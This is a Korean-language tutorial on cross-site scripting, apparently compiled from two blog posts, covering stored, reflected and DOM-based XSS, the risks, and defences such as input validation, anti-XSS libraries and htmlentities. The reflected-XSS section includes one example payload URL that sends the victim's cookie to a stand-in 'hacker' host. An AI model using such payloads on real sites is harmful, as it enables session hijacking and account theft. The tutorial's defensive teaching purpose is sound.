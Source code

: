 # XSS (Cross-Site Scripting) 이란?

## &#x20;**1 개요**

![](https://t1.daumcdn.net/cfile/tistory/99E25E485C89B3950D)

&#x20;XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다. XSS공격 역시 OWASP Top10에 포함되어 있습니다. 대부분 사용자가 글을 쓰고 읽을 수 있는 게시판에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생합니다. 악의적인 사용자가 C\&C 서버로 리다이렉션 하기 위해 리다이렉션 스크립트를 주입하여 중간 경유지로 활용하기도 하고, 사용자의 쿠키를 탈취하여 세션 하이재킹(Session Hijacking) 공격을 수행하기도 합니다.

&#x20;위의 사진은 XSS 공격중 Persistent(or Stored) XSS Attack이고, 사용자의 세션을 탈취하는 프로세스를 나타내고 있습니다. 해커가 XSS 공격에 취약한 웹사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성스크립트로 인해 본인의 쿠키가 해커에게 전송되게 됩니다. 세션ID가 포함된 쿠키를 탈취한 해커는 탈취한 사용자의 계정으로 로그인 하게 됩니다.

## **2 공격 종류 및 방법**

**Persistent(or Stored) XSS**

**지속형(혹은 저장형) XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/997CF6485C89B39508)

   Persistent(or Stored) XSS

XSS 공격 종류 중 하나인 Persistent XSS 는 말 그대로 지속적으로 피해를 입히는 XSS 공격입니다. 위의 그림을 보면, 해커는 웹 애플리케이션에서 XSS 취약점이 있는 곳을 파악하고, 악성스크립트를 삽입합니다. 삽입된 스크립트는 데이터베이스에 저장이 되고, 저장된 악성스크립트가 있는 게시글 등을 열람한 사용자들은 악성스크립트가 작동하면서 쿠키를 탈취당한다던가, 혹은 다른 사이트로 리다이렉션 되는 공격을 받게 됩니다. 데이터베이스에 저장이 되어 지속적으로 공격한다고 하여 Persistent XSS 라고 부르며, 데이터베이스에 저장이 되므로 Stored XSS 공격이라고 부르기도 합니다. 한번의 공격으로 악성스크립트를 삽입하여 수많은 피해를 입힐 수 있다는 점이 특징입니다.

Persistent XSS로 가장 많이 공격이 되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 프론트엔드 단에 보여주는 곳에 공격이 성공할 가능성이 큽니다. XSS공격도 마찬가지로 사용자의 입력에 대한 검증이 없기 때문에 발생합니다.

### **Reflected XSS**

**반사형 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99CB0F485C89B39406)

   Reflected XSS

Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생합니다. 예를 들면 사용자에게 입력 받은 검색어를 그대로 보여주는 곳이나 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성스크립트가 삽입되면, 서버가 사용자의 입력 값을 포함해 응답해 줄 때 스크립트가 실행됩니다.  보통 Reflected XSS 는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되면서 공격을 당하게 됩니다. &#x20;

예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. http://testweb?search=\<script>location.href("http://hacker/cookie.php?value="+document.cookie);\</script>

악의적인 스크립트를 살펴보면 검색 인자로 작성한 스크립트를 넘겨줍니다. 해당 스크립트의 내용은 본인의 웹페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있습니다. 링크를 클릭한 사용자는 해커한테 본인의 의도와는 상관없이 자신의 쿠키 값을 전송하게 됩니다.\


### **DOM based XSS**

**DOM(Document Object Model) 기반 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99D295485C89B3940D)

   DOM based XSS

&#x20;DOM based XSS 는 악의적인 스크립트가 포함 된 URL을 사용자가 요청하게 되어 브라우저를 해석하는 단계에 발생하는 공격입니다. 악의적인 스크립트로 인해서 클라이언트 측 코드가 원래 의도와는 다르게 실행됩니다. DOM based XSS 공격은 다른 XSS 공격과는 다르게 서버 측에서 탐지가 어렵다는 점입니다. 위의 그림을 보면 해커는 http://www.some.site/page.html URL 과 함께 # 이라는 특수문자를 사용하고 있습니다. 이 특수문자는 # 이후의 값은 서버로 전송되지 않는 기능을 가지고 있습니다.

![](https://t1.daumcdn.net/cfile/tistory/9943A2485C89B39313)

&#x20;DOM based XSS 공격 위치

사용자의 요청에 따라 HTML을 다르게 해석하는 부분에 공격이 가능합니다.

## **3. XSS 위험성**

다음으로 XSS를 통해 어떤 피해가 발생할 수 있는지 알아본다.

**1. 쿠키 정보 및 세션 ID 획득**

공격자는 XSS에 취약한 페이지 및 게시판에 XSS 공격을 수행함으로써 해당 페이지를 이용하는 사용자의 쿠키 정보나 세션 ID를 획득할 수 있다.

쿠키는 웹 서버가 브라우저에 보내는 4KB 이하의 작은 텍스트 파일로, 사용자가 웹 사이트를 이용하는 동안 사용자 브라우저에 저장하는 파일이다.

주로 사용자의 상태를 기록하기 위해 쿠키에 로그인 및 버튼 클릭 등에 대한 정보를 저장한다.

만약 세션 ID 등을 쿠키에 포함하는 경우, XSS 공격을 통해서 페이지 사용자의 세션 ID를 획득 해 공격자가 불법적으로 정상 사용자인 척 가장할 수 있다.

**2. 시스템 관리자 권한 획득**

XSS 취약점이 있는 웹 서버에 다양한 악성 데이터를 포함시킨 후, 사용자의 브라우저가 악성 데이터를 실행하게 할 수 있다.

공격자는 아직 패치되지 않은 취약점에 대한 공격 코드가 실행되도록 해 사용자의 시스템을 통제할 수 있다.

만약 회사 등 조직의 개인 PC가 해킹될 경우, 조직 내부로 악성 코드가 이동 해 내부의 중요 정보가 탈취될 수 있다.

**3. 악성코드 다운로드**

XSS 공격은 악성 스크립트 자체로 악성 프로그램을 다운로드 할 수는 없다.

하지만, 사용자가 악성 스크립트가 있는 URL을 클릭하도록 유도 해 악성 프로그램을 다운받는 사이트로 리다이렉트(Redirect) 하거나 트로이 목마 프로그램을 다운로드 하도록 유도할 수 있다.

**4. 거짓 페이지 노출**

XSS 공격에 취약한 페이지일 경우, \<script> 태그 뿐만 아니라 \<img>와 같은 그림을 표시하는 태그를 사용 해 원래 페이지와는 전혀 관련이 없는 페이지를 표시할 수 있다.

기타 다른 태그도 사용이 가능할 경우, 원래 페이지의 일부를 변조 해 거짓 페이지를 노출할 수 있어 이를 통해 개인정보 유출 등의 위험이 있다.

## **4. 대응방안**

**입출력 값 검증**

&#x20;사용자가 입력한 값에 대한 검증과 사용자가 입력한 값을 그대로 출력할 때 검증이 필요 합니다. XSS Cheat Sheet 에 대한 필터 목록을 만들어 모든 Cheat Sheet에 대한 대응이 가능하도록 하여야 합니다. XSS에 대한 필터링을 적용한 뒤 직접 테스트 하여 스크립트가 실행되는지 모의해킹 해보는 것도 좋은 방법입니다.

**XSS 방어 라이브러리 , 브라우저 확장앱 사용**

&#x20;XSS를 막아주는 Anti XSS 라이브러리를 여러 회사에서 제공하는데 이 라이브러리를 사용하면 손쉽게 XSS를 방어할 수 있습니다. XSS 라이브러리를 사용하는 것은 서버 단에서 개발자가 추가하는 것이고, 사용자들이 각자 본인의 브라우저에서 악의적인 스크립트가 실행되지 않도록 방어하는 것이 중요합니다. 방문하는 모든 사이트가 안전하다는 보장이 없기 때문에 브라우저 확장 앱 중 Anti XSS 를 해주는 애플리케이션을 설치하고 방어하여야 합니다.

**웹 방화벽 사용**

&#x20;웹 방화벽은 웹 공격에 특화되어있기 때문에 XSS 공격을 방어하기 위함만이 아니라 각종 Injection 공격을 효과적으로 방어할 수 있습니다.

**XSS 방지법**

XSS 공격은 IPS, IDS, 방화벽 등으로도 방지할 수가 없다.

때문에 단순히 문자를 필터링 하는 등의 방법만이 존재한다.

**1. script 문자 필터링**

XSS 공격은 입력값에 대한 검증이 제대로 이루어지지 않아 발생하는 취약점이다.

때문에 사용자의 모든 입력값에 대하여 서버측에서 필터링을 해 주어야 한다.

PHP의 eregi 함수를 이용하면 XSS 공격에 주로 사용되는 문자들을 필터링 할 수 있다.

주로 스크립트를 실행하기 위한 특수문자를 필터링 하며, <, >, ", ' 등의 문자가 있다.

**2. htmlentities 사용**

PHP 함수 중 htmlentities라는 함수가 있다.

htmlentities는 모든 특수문자를 HTML 엔티티(entity)로 변환한다.

※ HTML 엔티티는 "&약어;" 및 "\&#숫자;"의 형태를 표현하는 것을 의미한다. 예를 들어 <는 \&lt;로, >는 \&gt;로 표현한다.

출처 : [https://noirstar.tistory.com/266](https://noirstar.tistory.com/266), [https://4rgos.tistory.com/1](https://4rgos.tistory.com/1)
